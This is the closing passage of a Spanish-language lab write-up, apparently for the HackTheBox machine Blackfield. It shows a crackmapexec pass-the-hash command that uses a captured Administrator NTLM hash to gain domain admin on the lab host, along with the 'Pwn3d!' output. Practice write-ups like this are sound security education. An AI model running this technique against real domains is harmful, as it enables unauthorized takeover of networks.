 Ahora podemos usar el hash del Administrador para hacer PassTheHash y convertirnos en administradores del dominio.

```bash
❯ crackmapexec smb 10.10.10.192 -u 'Administrator' -H '184fb5e5178480be64824d4cd53b99ee'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\Administrator 184fb5e5178480be64824d4cd53b99ee (Pwn3d!)
```

Espero que te haya servido!













